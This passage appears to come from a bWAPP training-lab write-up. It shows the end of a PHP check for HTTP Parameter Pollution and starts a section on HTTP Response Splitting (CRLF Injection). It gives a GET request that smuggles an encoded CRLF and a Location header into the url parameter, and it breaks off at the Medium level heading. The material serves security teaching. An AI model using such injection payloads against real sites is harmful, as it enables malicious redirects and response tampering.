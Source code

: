     if($count_unique < $count_total)
    {
        $hpp_detected = "<font color=\"red\">HTTP Parameter Pollution detected!</font>";
    }
    return $hpp_detected;
    }
    ```

## HTTP Response Splitting(CRLF Injection)

- Security-Level : Low

    ```
    GET /bWAPP/http_response_splitting.php?url=http://itsecgames.blogspot.com%0d%0aLocation=https://google.com
    ```

- Security-Level : Mediumm
